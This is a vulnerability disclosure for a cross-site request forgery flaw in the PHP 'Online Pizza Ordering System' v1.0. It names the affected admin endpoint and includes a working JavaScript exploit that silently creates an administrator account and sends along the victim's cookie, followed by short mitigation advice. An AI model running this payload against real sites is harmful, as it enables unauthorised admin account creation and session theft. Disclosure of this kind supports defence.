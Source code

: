 # Online Pizza Ordering System has CSRF vulnerability

## CSRF vulnerability

BUG_Author: Murasaki

URL：http://localhost/php-opos/admin/ajax.php?action=save_user

Link:https://www.sourcecodester.com/php/16166/online-pizza-ordering-system-php-free-source-code.html

There is a CSRF vulnerability in the Online Pizza Ordering System v1.0.

When the administrator is logged in, open the created JS script file to complete the operation of adding an administrator.When the administrator is logged in, open the specified JS script file to complete a series of operations that require permissions, such as adding an administrator.

The CSRF vulnerability can complete various permission operations in the background when combined with the stored XSS vulnerability, which seriously affects business processes and permission management.


![(before.png)](https://github.com/1MurasaKi/PizzaCSRF_Pic/blob/main/before.png?raw=true)

![(after.png)](https://github.com/1MurasaKi/PizzaCSRF_Pic/blob/main/after.png?raw=true)

# Exploit
```
<script>
    xhr = new XMLHttpRequest();
    xhr.open("post", "http://localhost/php-opos/admin/ajax.php?action=save_user", true);  
    xhr.setRequestHeader('content-type', 'application/x-www-form-urlencoded'); 
    xhr.send("entry=" + document.cookie + "id=&name=1234&username=1234&password=1234&type=1"); 
</script>
```

# Suggestion
* Verify the origin of the request
* Use token credentials
* Add validation for key operations

